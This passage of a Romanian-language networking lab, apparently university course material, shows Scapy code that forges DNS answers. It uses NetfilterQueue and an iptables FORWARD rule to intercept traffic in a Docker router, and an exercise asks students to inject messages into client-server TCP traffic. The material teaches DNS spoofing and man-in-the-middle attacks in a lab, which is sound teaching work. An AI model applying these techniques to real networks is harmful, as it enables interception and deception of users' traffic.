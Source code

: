 ```python

def alter_packet(packet):
    # obtinem qname sau Question Name
    qname = packet[DNSQR].qname
    # construim un nou raspuns cu reply data
    packet[DNS].an = DNSRR(rrname=qname, rdata='1.1.1.1')
    # answer count = 1
    packet[DNS].ancount = 1
    # am modificat pachetul si stergem campurile len si checksum
    # in mod normal ar trebui recalculate, dar scapy face asta automat
    del packet[IP].len
    del packet[IP].chksum
    del packet[UDP].len
    del packet[UDP].chksum
    # returnam pachetul modificat
    return packet
```

##### 3. Executăm coada Netfilter cu funcția definită anterior
```python
queue = NFQ()
try:
    os.system("iptables -I FORWARD -j NFQUEUE --queue-num 10")
    # bind trebuie să folosească aceiași coadă ca cea definită în iptables
    queue.bind(10, detect_and_alter_packet)
    queue.run()
except KeyboardInterrupt:
    os.system("iptables --flush")
    queue.unbind()
```

Testați din containerul `server`: `docker compose exec server bash -c "ping fmi.unibuc.ro"`


<a name="exercitii"></a> 
## Exerciții
1. Urmăriți mai multe exemple din scapy [aici](https://scapy.readthedocs.io/en/latest/usage.html#simple-one-liners)
2. Utilizați NetfilterQueue în containerul `router` pentru a intercepta pachete TCP dintre client și server și pentru a injecta mesaje suplimentare în comunicare.
